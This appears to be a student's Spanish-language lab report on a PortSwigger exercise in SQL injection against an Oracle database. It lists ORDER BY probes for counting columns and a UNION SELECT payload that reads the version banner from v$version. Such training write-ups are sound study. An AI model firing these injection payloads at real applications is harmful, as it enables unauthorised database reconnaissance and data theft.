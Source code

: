 # README_CHRISTIAN_SANGUCHO_DIAZ
# INFORME LABORATORIO https://portswigger.net/

## Laboratorio:
Ataque de inyección SQL, consultando el tipo y la versión de la base de datos en Oracle

## Objetivo:
Conseguir la versión de Oracle

##Consulta Original: 
SELECT * FROM articles WHERE category = ‘Gifts’


## Consulta Manipulada:
Se busca el número de columnas con las siguientes instrucciones
‘ ORDER BY 1
‘ ORDER BY 2
‘ ORDER BY 3


! [Imagen búsqueda de número de columnas con error](https://github.com/mastercodelatam/wireshark_Tratamiento-de-datos-OCT24B/blob/CHRISTIAN_SANGUCHO_DIAZ1/RETO/CHRISTIAN_SANGUCHO_DIAZ1/Imagen_b%C3%BAsqueda_de_n%C3%BAmero_de_columnas_con_error.png)
! [Imagen búsqueda de número de columnas](https://github.com/mastercodelatam/wireshark_Tratamiento-de-datos-OCT24B/blob/CHRISTIAN_SANGUCHO_DIAZ1/RETO/CHRISTIAN_SANGUCHO_DIAZ1/Imagen_b%C3%BAsqueda_de_n%C3%BAmero_de_columnas.png)

## Consulta para obtener la versión de Oracle
=Gifts' UNION SELECT banner, 'NULL' FROM v$version--
! [Imagen de la Version Oracle](https://github.com/mastercodelatam/wireshark_Tratamiento-de-datos-OCT24B/blob/CHRISTIAN_SANGUCHO_DIAZ1/RETO/CHRISTIAN_SANGUCHO_DIAZ1/Imagen_de_la_Version_Oracle.png)

